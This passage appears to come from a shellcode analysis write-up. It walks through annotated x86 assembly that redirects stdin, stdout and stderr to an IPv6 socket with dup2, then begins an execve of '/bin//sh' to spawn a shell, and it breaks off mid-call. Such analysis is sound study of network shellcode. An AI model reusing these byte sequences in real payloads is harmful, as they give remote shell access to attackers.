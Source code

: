 <figcaption class="figure-caption">Redirect `stdin` to the previously-created socket</figcaption>

```nasm
                            ; clear EAX
00000056  31C0              xor eax,eax

                            ; 2nd argument of dup2(): stdout
00000058  41                inc ecx

                            ; 1st argument of dup2(): the IPv6 socket
00000059  89F3              mov ebx,esi

                            ; call syscall dup2()
0000005B  B03F              mov al,0x3f
0000005D  CD80              int 0x80
```

<figcaption class="figure-caption">Redirect `stdout` to the previously-created socket&nbsp;</figcaption>

```nasm
                            ; clear EAX
0000005F  31C0              xor eax,eax

                            ; 2nd argument of dup2(): stderr
00000061  41                inc ecx

                            ; 1st argument of dup2(): the IPv6 socket
00000062  89F3              mov ebx,esi

00000064  B03F              mov al,0x3f
00000066  CD80              int 0x80
```

<figcaption class="figure-caption">Redirect `stderr` to the previously-created socket</figcaption>

So far the disassembly I analyzed is equal to the following C code:

```cpp
dup2(fd, 0);
dup2(fd, 1);
dup2(fd, 2);
```

Next, a shell is spawned.

```nasm
                            ; clear EDX and EAX
                            ; 3rd argument of execve(): envp
                            ;   array of pointers to strings (env. variables)
                            ; in this case it's a null pointer
00000068  31D2              xor edx,edx
0000006A  F7E2              mul edx

                            ; push a string to the stack and add 4 null bytes at the end
                            ;   string: /bin//sh
0000006C  52                push edx
0000006D  682F2F7368        push dword 0x68732f2f
00000072  682F62696E        push dword 0x6e69622f

                            ; 1st argument of execve(): pathname, a pointer to the
                            ;   executable to run
00000077  89E3              mov ebx,esp

                            ; array of pointers to command-line arguments
                            ;   - EBX -> "/bin//sh"
                            ;   - EDX -> 0x00000000 
00000079  52                push edx
0000007A  53                push ebx
```